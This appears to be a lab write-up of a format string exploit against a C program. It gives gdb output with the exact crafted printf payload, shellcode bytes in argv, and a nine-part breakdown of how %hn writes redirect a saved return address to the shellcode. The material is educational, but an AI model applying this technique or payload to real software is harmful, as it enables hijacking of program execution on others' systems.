 
```c
(gdb) i f
Stack level 0, frame at 0xffffd7f0:
 eip = 0x8049abe in printf (src/stdio/printf.c:8); saved eip = 0x804922f
 called by frame at 0xffffd820
 source language c.
 Arglist at 0xffffd7e8, args:
    fmt=0xffffd830 "AAAA\034\330\377\377AAAA\036\330\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55873u%hn%9
631u%hn\n"
 Locals at 0xffffd7e8, Previous frame's sp is 0xffffd7f0
 Saved registers:
  eip at 0xffffd7ec
```

```c
(gdb) x/16x argv[1]
0xffffda60:     0xcd58326a      0x89c38980      0x58476ac1      0xc03180cd
0xffffda70:     0x692d6850      0xe2896969      0x6d2b6850      0xe1896d6d
0xffffda80:     0x2f2f6850      0x2f686873      0x896e6962      0x515250e3
0xffffda90:     0x31e18953      0xcd0bb0d2      0x48530080      0x3d4c564c
```

By doing so, we learned that the format string argument of the `printf` function (located directly after the `rip` of `printf`) is 64 bytes away from the local variable `buf`. Therefore we need to use 15 (64/4 - 1) `%c` format specifiers to skip to the start of `buf`.

### Exploit Structure

The exploit has nine parts:

1. 4 dummy characters to be consumed by the **first** `%u` format specifier.
2. The address of the **lower** half of the `rip` of function `calibrate` (*0xffffd81c*).
3. Another 4 dummy characters to be consumed by the **second** `%u` format specifier.
4. The address of the **upper** half of the `rip` of function `calibrate` (*0xffffd81e*).
5. 15 `%c` format specifiers to skip over bytes between the format string argument of the `printf` function (located directly after the `rip` of `printf`) and the local variable `buf`.
6. `%55873u` format specifier to consume the dummy characters in part 1. (**55873** comes from desired value **0xda30** subtracted by **36** which is the number of already printed bytes).

7. `%hn` to consume the address in part 2 and overwrite its value with the desired value **0xda30**.
8. `%9631u` format specifier to consume the dummy characters in part 1. (**9631** comes from desired value **0xffff** subtracted by **0xda30** which is the number of already printed bytes).
9. `%hn` to consume the address in part 2 and overwrite its value with the desired value **0xffff**.

### Exploit GDB Output

```c
(gdb) x/24x 0xffffd81c
0xffffd81c:     0xffffda60      0xffffd830      0x08048034      0x00000020
0xffffd82c:     0x00000008      0x41414141      0xffffd81c      0x41414141
0xffffd83c:     0xffffd81e      0x63256325      0x63256325      0x63256325
0xffffd84c:     0x63256325      0x63256325      0x63256325      0x63256325
0xffffd85c:     0x35256325      0x33373835      0x6e682575      0x33363925
0xffffd86c:     0x68257531      0x00000a6e      0x00000001      0x00000000
```
